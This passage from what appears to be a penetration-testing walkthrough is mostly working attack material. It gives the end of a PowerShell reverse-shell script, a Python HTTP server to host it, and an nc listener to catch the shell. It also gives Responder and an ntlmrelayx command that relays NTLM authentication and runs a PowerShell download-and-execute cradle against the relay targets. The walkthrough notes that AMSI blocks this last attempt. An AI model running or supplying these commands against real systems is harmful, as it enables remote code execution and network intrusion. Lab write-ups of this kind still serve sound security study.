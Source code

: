 ```Powershell
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Tcp -Reverse -IPAddress <your ip> -Port 8443
```

> Save and rename Invoke-PowerShellTcp.ps1

> Setup server in python in the same path where you saved the script

```
python -m SimpleHTTPServer 8080
```

> Of course, nc to be able to capture the shell.

```
rlwrap nc -nlvp 8443
```

> And here we will execute the same steps as before, but this time we will add a small command with the `-c` parameter in ntlmrelayx

```
python3 responder.py -I interface -rdw
```

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell -NoP -NonI -W 1 -exec bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://<your ip>:8080/ps.ps1')"
```

> Unfortunately, this does not work, `AMSI` detects it.
